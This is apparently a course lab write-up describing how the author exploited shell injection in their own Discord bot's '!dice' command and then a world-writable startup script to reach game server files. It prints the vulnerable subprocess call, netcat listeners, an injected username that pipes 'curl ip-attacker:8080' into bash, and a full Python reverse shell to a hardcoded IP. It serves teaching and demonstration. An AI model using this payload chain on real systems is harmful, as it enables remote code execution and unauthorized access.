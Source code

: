 # Exploiting Discord Bot Vulnerability to Gain Access to Game Server Files





## Introduction
I own a personal server that hosts both a game server and a Discord bot, which provides various functionalities to players, such as displaying game statistics, rolling dice, and many others.

The Discord bot is a program that continuously listens to messages in a designated chat channel and executes commands or functions depending on the message content.

During a Cybersecurity course, I discovered a vulnerability in the Discord bot’s Python code that allows remote code execution without requiring user interaction. Exploiting this flaw, combined with a misconfiguration in the file permissions of a script, I was able to gain unauthorized access to the game server’s files.





### Server Enviroment
The game server and the Discord bot are running under two different system users to enforce a basic privilege separation:

- The Discord bot runs under `user-a`.
- The game server runs under `user-b`, which owns all the game files.


### Vulnerability
The Vulnerability is a line in the code of the funcion "dice" that permits code injection by changing the username of the Discord Accounts
```python
if message.content.startswith('!dice'):
    dice = random.randint(1,6)
    username = message.author.display_name
    subprocess.run(f'python3 ./logWriter.py {username} {dice}', shell=True)  <---------
    await message.channel.send(f"{username}, hai estratto: {dice}")
```
Since the code is executed in a shell, inserting a ; in the username allows the shell to treat what follows as a separate command instead of passing it as a parameter.


### Misconficuration
In addition to the code injection vulnerability, the system also presented a misconfiguration related to file permissions. The `server_start.sh` script, which is executed at system startup via a crontab entry belonging to `user-b`, was located inside `user-a`'s home directory with permissions set to `rwxrwxrwx`, allowing any user on the system to modify it.

Since this script is executed by the game server process running under `user-b`, modifying its content and then restarting the server makes it possible to execute arbitrary code with `user-b`'s privileges, ultimately granting access to the game server files.






## Threat model
- Attacker has access to send messages in the Discord chat monitored by the bot.  
- Attacker is aware of the injection vulnerability in the bot’s username handling.





## Attacker Setup
The Attacker uses 2 netcat processes, one listening on 8080, the other on 8081.
#### Nat Configuration
![Nat Configuration](images/Nat_Configuration.png)

#### Server process 1
```
clear
while true; do
nc -l -p 8080 -w 1 < response.txt
done
```
#### Server process 2
```
clear
nc -lvnp 8081
```
In the response.txt file there is the payload that the attacker wants to execute.




## Exploit
The reason I did not inject the entire payload directly through the username is due to the 32-character limit imposed on usernames (including spaces).
Instead, I set up a remote listener to serve the full payload.
The exploit consists of injecting a command via the username that instructs the bot to fetch and execute code from a remote response.txt file.
The username I used to achieve this was:
```
;curl ip-attacker:8080 | bash;
```




## Execution

#### 1)Reverse Shell

To obtain a `reverse shell`, I wrote the following content in `response.txt`:

```
HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 197

python3 -c
'import socket,subprocess,os;
s=socket.socket();
s.connect(("79.40.232.212",8081));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
```
This Python command creates a reverse shell:

- It opens a socket connection to `79.40.232.212` on port `8081`.
- It redirects the socket file descriptor to stdin (`0`), stdout (`1`), and stderr (`2`), effectively binding the shell’s input and output to the network connection.
- It starts an interactive `/bin/sh` shell, allowing the attacker to execute commands remotely through the established connection.

#### 2)Listeners
In order to serve the malicious payload and receive the reverse shell connection, I set up two listener processes on my machine by running the server processes code.

#### 3)Username
Due to the vulnerability in the bot’s input handling, I modified my Discord username to include a shell injection payload.
The username was set to:
`;curl ip-attacker:8080 | bash;`

#### 4) Triggering the Vulnerability

With the username set, I simply interacted with the bot by sending the command:
`!dice`




## Post-Exploitation
Once i obtained a reberse shell, and i was able to navigate inside the user-a folder, accessing all doscord bot's files, including user-b's script `server_start.sh`

![Nat Configuration](images/Initial_Access.png)
